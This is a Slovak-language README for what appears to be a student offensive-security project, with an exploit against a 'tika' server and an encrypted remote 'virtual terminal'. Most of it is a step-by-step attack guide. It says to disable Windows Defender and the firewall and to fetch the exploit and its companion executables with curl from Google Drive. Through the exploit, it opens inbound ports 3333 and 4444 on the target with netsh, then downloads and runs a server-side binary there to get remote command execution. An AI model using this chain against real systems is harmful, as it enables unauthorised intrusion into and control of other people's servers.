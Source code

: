 # IC1-projekt

## Obsah repozitara
V repozitary su 3 zlozky :
### build
Tu sa nachadza iba subor `build.bat` ktory zkompiluje vsetky zdrojaky do 4 exe suborov :
1. **client_side** - cast virtualneho terminalu ktora sa spusta na klientovy (utocnik) ked uz boli otvorene porty pomocou exploitu.
2. **server_side** - cast virtualneho terminalu ktora sa spusta na servery ma 2 argumenty *[ip_addr_ca, ip_addr_client]*. 
3. **exploit** - subor ktory utoci na tika server, spusta sa na klientovy.
4. **CertificateAuthority** - Certifikacna autorita ktora sluzy ako tretia strana pri sifrovanej komunikacii medzi sererom a klientom.
### exploit 
V tejto zlozke sa nachadza subor `commands_list.txt` v ktorom su napisane 2 prikazy na otvorenie portov na serveri pre komunikaciu z CA (4444) a klientom (3333).
V subore `exploit.py` su zdrojove kody pre exploit.exe
### virtual_cmd
V tejto zlozke su zdrojove kody pre sifrovanu komunikaciu v zlozke `communication` a subory su zdrojove kody pre client_side.exe a server_side.exe respektivne.

## Ako spustit exploit 
- pred startom je potrebne vypnut windows defender a windows firewall
- ako prove si musime stiahnut potrebne subory, v subore `commands_list.txt` sa nachadazju linky na 3. potrebne .exe subory 
    -   `curl -L -o exploit.exe "https://drive.google.com/uc?export=download&id=1JLoM4mb9r6DXaW-wq8X2vu4hISk3cOiE"`
    -   `curl -L -o client_side.exe "https://drive.google.com/uc?export=download&id=1YWW_w4_0Yah4jvRlaDiPJfQ6so3_kt4N"`
    -   `curl -L -o CertificateAuthority.exe "https://drive.google.com/uc?export=download&id=1RfyO5BhZNs_CN3Slr-IC_vFiHayp_JUs"`
- exploit.exe je potrebne spustit na utocnikovej strane v cmd z pravami administratora
- po zadani IP adresy je mozne zadavat prikazy zo suboru commands_list a to prve dve : 
    -   `netsh advfirewall firewall add rule name="Allow port 3333" dir=in action=allow protocol=TCP localport=3333`
    -   `netsh advfirewall firewall add rule name="Allow port 4444" dir=in action=allow protocol=TCP localport=4444`
- dalej je potrebne spustit CertificateAuthority.exe v novom terminaly z administrativnimy pravami
- v terminaly kde je spusteny exploit.exe je potrebne stiahnut subor server_side.exe
    -   `curl -L -o server_side.exe "https://drive.google.com/uc?export=download&id=1MWQaEGF5sdziP5qQR7zLXzuNJT_CAgcj"` 
- tento subor nasledovne stiahneme z prikazom server_side.exe *[ip_adresa_certifikacne_autority]* *[ip_adresa_klienta]*
- potom spustime na klientovy subor client_side.exe a zvolime ip adresu CA *(localhost v tomto pripade)* a serveru
- ak vsetko prebehlo ako malu virtualne cmd je inicializovane a je mozne sa pohybovat v adresarovej strukture servera a zadavat prikazy


